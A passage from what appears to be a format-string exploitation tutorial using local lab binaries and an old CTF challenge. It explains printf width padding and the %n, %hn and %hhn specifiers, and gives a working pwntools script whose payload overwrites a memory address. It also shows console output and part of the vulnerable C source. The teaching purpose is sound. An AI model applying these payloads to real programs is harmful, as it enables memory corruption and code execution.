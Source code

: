 ```console
inte@debian-pc:~$ docker run --rm -v "$(pwd):/app" -w /app gcc:10.5.0 gcc example7.c -o example7
inte@debian-pc:~$ ./example7
Name -->           Alice Score -->         7331
Name -->     Oppenheimer Score -->     45000000
```

Take note of the padding. We can abuse this feature to set the character count to a very high number.  
If the exploit script for example 6 makes use of this feature, we can easily replace `0x1337` with a large number like `0xc0de` (49374 in decimal).

```py
from pwn import *

exe = context.binary = ELF('./example6', checksec=False)
# context.aslr = False
# context.log_level = 'debug'

p = exe.process()

# gdb.attach(p, gdbscript='b* main+72')
# pause()

p.sendline(b'%8$49374p%8$n|||\x38\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

```console
inte@debian-pc:~$ python3 exploit.py
[+] Starting local process '/mnt/hgfs/corridor/fmtstr_lab/example6': pid 2782
[*] Switching to interactive mode
[*] Process '/mnt/hgfs/corridor/fmtstr_lab/example6' stopped with exit code 0 (pid 2782)
Target address: 0x404038

// lots of empty space

      0x404038|||8@@
c0de
```

We have yet another trick up our sleeves which allows us to overwrite only one or two bytes of the target.  
`printf()` has `%hn` and `%hhn` format specifiers which imply that the number of characters written so far is to be stored into data type `short int` (a 16-bit integer) and `signed char` (an 8-bit integer) respectively.  
It allows for finer control over what we write.

For demonstration, I'd use a pwnable from an old CTF with partial RELRO and no PIE:

```c
#include <stdio.h>
#include <stdlib.h>

int win()
{
    system("cat flag.txt");
    return 0;
}

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char input[20];

    scanf("%19s", input);
```